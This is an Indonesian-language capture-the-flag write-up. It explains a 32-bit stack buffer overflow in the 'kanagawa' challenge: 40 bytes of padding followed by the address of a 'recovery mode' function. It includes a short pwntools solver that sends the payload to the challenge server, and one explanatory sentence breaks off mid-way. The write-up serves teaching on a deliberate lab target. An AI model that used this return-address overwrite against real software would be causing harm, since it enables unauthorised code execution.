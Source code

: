 Tidak banyak deskripsi hanya terdapat attachment file 32 bit-executable dibuktikan dengan :
![](images.png)
![](images2.png)
Dari kedua pengecekan diatas ternyata 32 bit, not-striped, no-pie, no-canary, seharusnya challange pwn yang tidak begitu sulit. Dilanjutkan dengan analisis statis menggunakan Ida-pro dan begini hasilnya.
![](images3.png)
Fgets disini bisa saja dieksploitasi karena

Misi kita hanyalah melakukan buffer overflow dan bisa jump ke fungsi 'recovery mode'. ya tinggal melakukan dynamic analisis dengan gdb dan filler buffer pada fgets pertama berapa, ternyata buffer yang dibutuhkan 40 char dan 4 char setelahnya akan digunakakn untuk melakukan jump ke memory dari recovery mode dan 'cat flag.txt'. Kita perlu mengambil address memory di recovery mode dan membaliknya karena ini merupakan 32-bit LSB, dengan mudah dibantu pwntools. Berikut solver yang saya gunakan.

'''from pwn import \*

elf = ELF('./kanagawa')
#r = process(elf.path)
s = remote('challs.dvc.tf',8888)

def exploit(): # s.recvuntil('Email: ') # Fill the buffer
payload = 'a' \* 40 + p32(0x0804851b)

    s.sendline(payload)
    s.interactive()

exploit()'''

flag = dvCTF{0v3rfl0w_tsun4m1}
